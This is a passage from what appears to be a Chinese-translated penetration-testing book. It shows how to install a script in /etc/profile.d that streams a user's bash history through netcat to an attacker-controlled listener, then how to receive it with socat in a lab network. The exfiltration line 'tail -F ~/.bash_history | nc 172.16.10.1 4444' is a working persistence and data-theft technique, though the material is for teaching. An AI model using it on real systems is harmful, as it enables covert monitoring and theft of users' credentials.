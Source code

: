 列表 10-6: 使用 autocmd 条件执行命令

现在，命令将只查找包含凭证的文件，比如密码或 API 密钥。

### 流式传输已执行的命令

在第八章中，我们讨论了历史文件，比如*~/.bash_history*。历史文件记录了用户执行的命令，并允许访问、审计和重放之前执行的命令。

每当新命令被执行时，历史文件就会更新，因此将历史文件流式传输到网络上的监听器，以提供命令执行事件的实时记录，这可能会很有趣，从而将其传输到我们控制的服务器。这些命令可能揭示用户在服务器上执行了什么操作，并捕获他们通过命令行输入的任何凭据。（注意，*~/.bash_history*只是一个示例；你可能会发现通过此方法流式传输其他文件在将来会更有用。）

让我们设置几个 bash 命令，将最后写入的命令通过网络发送到远程监听器。此技术假设你有权限访问用户的主目录，并能修改*~/.profile*文件，或者有能力写入系统范围的*/etc/profile*文件。

在*p-jumpbox-01*（172.16.10.13）上，使用*root*用户，在*/etc/profile.d*目录下创建一个名为*99-stream.sh*的文件，内容参考列表 10-7。

```
❶ export PROMPT_COMMAND="history -a; history -r; $PROMPT_COMMAND"

❷ if ! pgrep -u "$(whoami)" nc &> /dev/null; then
❸ tail -F ~/.bash_history | nc 172.16.10.1 4444 &> /dev/null &
fi 
```

列表 10-7：通过网络流式传输历史文件

在 ❶ 处，我们导出 PROMPT_COMMAND 变量，以便在执行期间使其对后续命令可用。我们将此变量设置为一个 bash 命令，该命令将在终端显示提示之前执行。您会注意到我们将 history 命令传递两次作为其值：一次使用 -a（追加）参数，第二次使用 -r（读取）参数。PROMPT_COMMAND 的值将在显示提示之前执行，允许我们在执行命令时追加到历史文件并从中读取。

我们通过使用 pgrep ❷ 检查 Netcat（nc）进程是否在运行。我们使用 -u（用户）与 whoami 结合，将进程列表限制为仅列出当前用户运行的 nc 进程。如果 pgrep 返回退出码 1（未找到进程），则没有反向 shell 从此用户连接，因此我们可以建立一个新的连接。这有助于我们避免从同一用户打开多个连接。

我们使用 tail 命令读取历史文件的末尾，并将其管道传输到 nc ❸。-F（跟随）参数跟踪文件的末尾，因此任何新内容都会被发送到网络。

最后，我们将在 Kali 上使用 socat，以便在多个用户同时连接并执行命令时，能够接收多个连接而不关闭服务器端的连接：

```
$ **socat TCP4-LISTEN:4444,fork STDOUT**
```

打开另一个终端并作为用户 backup（先前被入侵密码为 backup）登录到 *p-jumpbox-01*（172.16.10.13）。然后输入几个命令：

```
$ **ssh backup@172.16.10.13**
backup@172.16.10.13's password:

backup@p-jumpbox-01:~$ **id**
uid=34(backup) gid=34(backup) groups=34(backup)

backup@p-jumpbox-01:~$ **whoami**
backup

backup@p-jumpbox-01:~$ **uptime**
02:21:50 up 14 days, 12:32,  0 user,  load average: 0.60, 0.40, 0.23 
```

观察 socat 输出的结果：

```
$ **socat TCP4-LISTEN:4444,fork STDOUT**

id
whoami
uptime 
```
